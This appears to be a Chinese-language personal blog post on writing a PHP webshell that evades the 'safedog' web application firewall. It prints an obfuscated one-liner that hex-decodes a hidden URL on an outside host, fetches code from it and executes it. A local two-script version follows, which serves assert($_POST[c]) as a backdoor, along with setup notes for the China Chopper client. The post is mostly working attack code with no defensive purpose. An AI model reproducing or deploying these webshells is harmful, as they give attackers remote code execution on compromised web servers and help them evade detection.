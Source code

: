 ```yaml
---
title: php webshell
author: tank96a
layout: post
categories:
  - article
tags:
  - php
  - webshell
---
```


  研究了一下过狗原理，自己写了个一句话。

过狗php大马一枚,有人翻译如下，省了我不少事。
{% highlight php %}
<?php 
define('iphp','oday');
define('T','H*');
define('A','call');
define('B','user');
define('C','func');
define('D','create');
define('E','function');
define('F','file');
define('F1','get');
define('F2','contents');
define('P','pack');
$p = P;  //pack
$call = sprintf('%s_%s_%s',A,B,C); //call_user_func
$create = sprintf('%s_%s',D,E);    //create_function
$file = sprintf('%s_%s_%s',F,F1,F2); //file_get_contents 远程文件读取
$t = array('6','8','7','4','7','4','7','0','3','a','2','f','2','f','6','4','6','f','6','4','6','f','6','4','6','f','6','d','6','5','2','e','7','3','6','9','6','e','6','1','6','1','7','0','7','0','2','e','6','3','6','f','6','d','2','f','6','7','6','5','7','4','6','3','6','f','6','4','6','5','2','e','7','0','6','8','7','0','3','f','6','3','6','1','6','c','6','c','3','d','6','3','6','f','6','4','6','5');
//$call($create(null,$p(T,$file($p(T,join(null,$t))))));
call_user_func(create_function(null,pack('H*',file_get_contents(pack('H*',join(null,$t))))));
?>
{% endhighlight %}

{% raw %}
<pre>
写了两个脚本webshell.php和getcode.php(本地开了个php server，运行getcode.php模拟远程服务器上的网页)
原理：首先用菜刀访问webshell.php，该webshell立即从远程服务器上获取要运行的代码并执行。
这里获取的代码是61737365727428245f504f53545b635d293b，也就是assert($_POST[c]);
菜刀中设置：http://192.168.1.102/DebugPHP/webshell.php 密码是c
</pre>
{% endraw %}

两个脚本代码如下：
{% highlight php %}
<?php 
//webshell.php
//echo pack('H*', base_convert('0011000000111010', 2, 16));
//echo pack('H*', '61737365727428245f504f53545b635d293b');
//call_user_func(create_function(null,'echo (1+2);'));
//call_user_func(create_function(null,'assert($_POST[c]);'));

$url='http://localhost/DebugPHP/getcode.php?call=code';
call_user_func(create_function(null,pack('H*',file_get_contents($url))));
?>

<?php
//getcode.php    
//assert($_POST[c]);
$cmd=$_GET['call'];
if ($cmd=='code')  
   echo sprintf('61737365727428245f504f53545b635d293b');
?>
{% endhighlight %}

php函数参考网站：
[create_function](http://php.net/manual/en/function.create-function.php)
[pack](http://php.net/manual/en/function.pack.php)

